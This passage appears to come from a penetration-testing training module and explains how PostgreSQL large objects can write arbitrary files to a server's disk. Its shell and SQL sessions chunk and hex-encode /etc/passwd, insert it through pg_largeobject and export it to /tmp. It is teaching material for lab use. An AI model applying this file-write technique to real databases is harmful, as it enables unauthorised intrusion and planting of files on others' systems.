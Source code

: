 
## Writing Files
Writing files using large objects is a very similar process. Essentially we will create a large object, insert hex-encoded data 2kb at a time and then export the large object to a file on disk.

First we need to prepare the file we want to upload by splitting it up into 2kb chunks:


```bash
0xevilpayload@htb[/htb]$ split -b 2048 /etc/passwd
0xevilpayload@htb[/htb]$ ls -l
total 8
-rw-r--r-- 1 kali kali 2048 Feb 25 06:52 xaa
-rw-r--r-- 1 kali kali 1328 Feb 25 06:52 xab
```


We'll convert each chunk (xaa,xab,...) into hex-strings like this:


```bash
0xevilpayload@htb[/htb]$ xxd -ps -c 99999999999 xaa
726f6f743a783a303a303a726<SNIP>
```


Once that's ready, we can create a large object with a known object ID with lo_create, then insert the hex-encoded data one page at a time into pg_largeobject, export the large object by object ID to a specific path with lo_export and then finally delete the object from the database with lo_unlink.



```bash

bluebird=# SELECT lo_create(31337);
 lo_create 
-----------
     31337
(1 row)

bluebird=# INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
INSERT 0 1
bluebird=# INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 1, DECODE('6e2f626173<SNIP>96e0a','HEX'));
INSERT 0 1
bluebird=# SELECT lo_export(31337, '/tmp/passwd');
 lo_export 
-----------
         1
(1 row)

bluebird=# SELECT lo_unlink(31337);
 lo_unlink 
-----------
         1
(1 row)

bluebird=# exit

0xevilpayload@htb[/htb]$ head /tmp/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```